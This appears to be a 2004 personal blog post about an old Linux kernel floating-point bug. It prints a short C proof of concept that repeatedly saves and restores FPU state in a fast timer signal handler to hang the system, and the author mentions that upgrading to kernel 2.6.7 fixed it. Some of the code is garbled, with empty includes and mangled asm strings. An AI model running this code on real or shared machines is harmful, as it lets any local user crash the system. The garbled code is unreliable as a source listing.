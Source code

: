 ```yaml
---
date: 2004-06-29 20:56:12
title: less than 30 lines of code that crashed linux
tags: Linux Unix QNX
---
```

yea yea, we all know about that stupid linux kernel bug that would allow a
program to crash the operating system.

it affected the floating point unit or something...  
as soon as I read about it, I tried it on my machine the night I got home,
and... it does hang my computer quite well

<pre class="brush:c">
#include 
#include 
#include 
 
static void Handler(int ignore)
{
    char fpubuf[108];
    __asm__ __volatile__ ("fsave %0n" : : "m"(fpubuf));
    write(2, "*", 1);
    __asm__ __volatile__ ("frstor %0n" : : "m"(fpubuf));
}
 
int main(int argc, char *argv[])
{
    struct itimerval spec;
    signal(SIGALRM, Handler);
    spec.it_interval.tv_sec=0;
    spec.it_interval.tv_usec=100;
    spec.it_value.tv_sec=0;
    spec.it_value.tv_usec=100;
    setitimer(ITIMER_REAL, &spec;, NULL);
    while(1)
        write(1, ".", 1);
    
    return 0;
}
</pre>

last weekend I finally took the time to update my kernel to 2.6.7...  
after applying all the patches I wanted myself, I sort of have a working kernel
but no bootsplash :(

no cool load screen, but it did get rid of the above kernel bug...  
I'll just wait for new -love to come out I guess.
